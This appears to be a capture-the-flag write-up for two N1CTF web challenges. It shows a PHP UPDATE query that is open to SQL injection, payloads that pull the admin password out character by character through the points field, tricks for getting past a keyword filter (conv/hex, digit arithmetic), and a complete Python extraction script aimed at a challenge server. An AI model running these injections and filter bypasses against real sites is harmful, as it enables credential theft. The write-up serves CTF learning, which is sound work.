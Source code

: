 # 77777

This site has a logic like below

```php
$flag = $_POST['flag'];
$hi = $_POST['hi'];
$query = sprintf("UPDATE users SET points=%d%s", $flag, waf($hi));
mysqli_query($query);
```

Our target is get ``admin's password``, after post our request, we can access ``#profile`` to see points. 

So it's easy to solve, just let ``flag=0`` and ``hi=+ord(substr((select password), %d, 1))``, we can get password from points.

Finally, flag is ``N1CTF{helloctfer23333}``

# 77777 2

New challenge is similar with challenge 1, but ``waf`` disable more keywords, such as ``ord`` / digit ``[2-59]`` / ``(select pw)``.

We can use ``conv`` and ``hex`` to bypass ``ord``, and ``+1+1`` to bypass digit limit, and ``(select pw )`` bypass ``(select pw )``


Whole exploit is

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from saker.main import Saker

class Cli(Saker):

    def __init__(self, url):
        super(Cli, self).__init__(url)

    def up(self, flag, hi):
        data = {
            "flag": flag,
            "hi": hi,
        }
        self.post(self.url, data=data)
        if "hacker" in self.lastr.content:
            print "hacker", hi
            return ""
        else:
            # print hi, "ok"
            points = self.lastr.content.split("</grey> | ")[1]
            points = points.split("<br/>")[0]
            try:
                return chr(int(points))
            except Exception as e:
                return " "


def sstr(i):
    num = str(i)
    for k in "23459":
        if k in num and i < 20:
            num = num.replace(k, "1" + "+1" * (int(k) - 1))
        elif i >= 20 and i < 26:
            num = "10+10" + "+1" * (i%10)
        elif i >= 20 and i < 29:
            num = "10+10+" + str(i%10)
        elif i == 29:
            num = "10+10+10-1"
        elif i >= 30 and i < 40:
            num = "10+10+10" + "+1" * (i%10)
    return num


if __name__ == '__main__':
    url = "http://47.52.137.90:20000/index.php"  # site url
    c = Cli(url)
    x = ""
    for i in range(1, 40):
        x+=c.up("0", "+conv(hex(substr((select pw ), %s, 1)), 16, 10)" % sstr(i))
        print x
```

Finally, flag is ``N1CTF{hahah777a7aha77777aaaa}``
